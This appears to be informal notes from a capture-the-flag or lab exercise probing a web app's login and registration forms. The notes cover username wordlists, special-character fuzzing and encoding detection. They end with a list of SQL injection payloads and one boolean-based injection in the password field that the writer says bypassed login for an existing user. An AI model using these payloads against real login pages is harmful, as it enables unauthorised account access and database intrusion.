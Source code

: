 **It also seems the app tries to regect special characters**

```txt
sap-default-usernames.txt
top-usernames-shortlist.txt
names.txt
cirt-default-usernames.txt
```

**TAKEN USERNAMES**:

... :)

it does not differenciate lowercase and uppercase

**Fuzzes to see which special characters it does not like**

Username can only contain letters, numbers and underscores.

Started in the index.php (login) but there is no information given (only says bad username or password) but the registration site does give a little bit more of information so i'm using that one.

```txt
big_list_of_naughty_strings.txt
```

in *registration*

it seems only the username checks for special characters 
- username checks existance and special characters
- password checks for length (6 min)

in *login*
- seems to check existance of user and special characters


## IMPORTANT 

The main login page seems to guard against SQL Injection, (so i stand correct, but still don't know what it might be)

### ENCODINGS 

```txt
urlform -> detected
hex (0xasciihex) -> detected
html -> don't work
```

### THINGS THAT ANGERED THE SERVER

```txt
'+OR+TRUE
'+OR+FALSE
'+or+true+--+
NO'+OR+FLOOR()
**ANY TYPE OF HEX**
a'+OR+SELECT+EXISTS```sql
information_schema.tables

username=hello&password=qwerty'+AND+SELECT+EXISTS+(SELECT+1+FROM+information_schema.tables)+--+       <- for a user that does exist this happens to let me in since it is true -> indirect sql injection

qwerty'+AND+1=3+--+;+ <- in general
```
